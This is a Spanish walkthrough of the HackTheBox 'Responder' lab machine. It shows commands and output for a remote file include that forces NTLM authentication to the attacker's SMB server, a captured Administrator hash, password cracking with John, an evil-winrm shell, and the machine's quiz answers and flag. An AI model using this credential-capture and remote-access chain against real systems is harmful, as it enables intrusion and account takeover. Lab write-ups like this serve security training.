



Resolución de la máquina Responder de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.129.140.42
Nmap scan report for 10.129.140.42
PORT STATE SERVICE
80/tcp open http
5985/tcp open wsman
Al hacer un curl podemos ver que nos redirige a unika.htb
❯ curl 10.129.140.42
<meta http-equiv="refresh" content="0;url=http://unika.htb/">
Agregaremos el host con la ip al /etc/hosts para que sepa a donde apuntar cuando lo llama
❯ echo "10.129.140.42 unika.htb" | sudo tee -a /etc/hosts
10.129.140.42 unika.htb
Dandole ul vistazo a la web podemos ver una página bastante simple en verdad

Podemos ver una opción que parece que es para cambiar el idioma de la página

Al usarlo podemos ver que gestiona las paginas mediante un parametro page=

Esto es sencillo, podemos intentar cargar un archivo de un servidor smb externo, esto realizará una autentiación por lo que podemos conseguir el hash NTLMv2 del usuario
Iniciamos montando un servidor con responder (también se puede usar impacket-smbserver)
❯ sudo responder -I tun0
__
.----.-----.-----.-----.-----.-----.--| |.-----.----.
| _| -__|__ --| _ | _ | | _ || -__| _|
|__| |_____|_____| __|_____|__|__|_____||_____|__|
|__|
NBT-NS, LLMNR & MDNS Responder 3.0.6.0
Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CTRL-C
[+] Listening for events...
Ahora enviamos una petición con el parametro page que apunte a nuestro servidor
❯ curl "http://unika.htb/index.php?page=//10.10.14.10"
Una vez hecho esto al revisar el responder podemos ver el hash NTLMv2 de Administrator
[+] Listening for events...
[SMB] NTLMv2-SSP Client : 10.129.140.42
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash : Administrator::RESPONDER:32a13e1280b7c3b4:1B8228984D3ED246A921DAB24FAED46B:0101000000000000805AAB36572FD9011F5C84AAD479B5E200000000020008005500490030004C0001001E00570049004E002D0047003100340034005A00470032003500500047004A0004003400570049004E002D0047003100340034005A00470032003500500047004A002E005500490030004C002E004C004F00430041004C00030014005500490030004C002E004C004F00430041004C00050014005500490030004C002E004C004F00430041004C0007000800805AAB36572FD9010600040002000000080030003000000000000000010000000020000008D14ABACDF29206956408812C85BA85F5A30B5C168FE57E668D563253980A6A0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0033000000000000000000
Ahora que tenemos el hash podemos guardarlo en un archivo y crackearlo con John
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
badminton (Administrator)
Session completed
Usamos las credenciales para conectarnos por winrm y conseguimos una shell
❯ evil-winrm -i unika.htb -u Administrator -p badminton
PS C:\Users\Administrator\Documents> whoami
responder\administrator
PS C:\Users\Administrator\Documents>
Desde el directorio C:\Users podemos buscar la flag de manera recursiva y despues leerla
PS C:\Users\Administrator\Documents> cd C:\Users
PS C:\Users> dir -recurse flag.txt
Directory: C:\Users\mike\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 3/10/2022 4:50 AM 32 flag.txt
PS C:\Users> type C:\Users\mike\Desktop\flag.txt
ea81b7afddd03efaa0945333ed147fac
PS C:\Users>
Vamos con las preguntas que nos pide la web de htb para pwnear la máquina
When visiting the web service using the IP address, what is the domain that we are being redirected to?
- unika.htb
Which scripting language is being used on the server to generate webpages?
- php
What is the name of the URL parameter which is used to load different language versions of the webpage?
- page
Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
- ../../../../../../../../windows/system32/drivers/etc/hosts
Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
- //10.10.14.6/somefile
What does NTLM stand for?
- New Technology Lan Manager
Which flag do we use in the Responder utility to specify the network interface?
- -I
There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.
- John The Ripper
What is the password for the administrator user?
- badminton
We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
- 5985
Submit root flag
- ea81b7afddd03efaa0945333ed147fac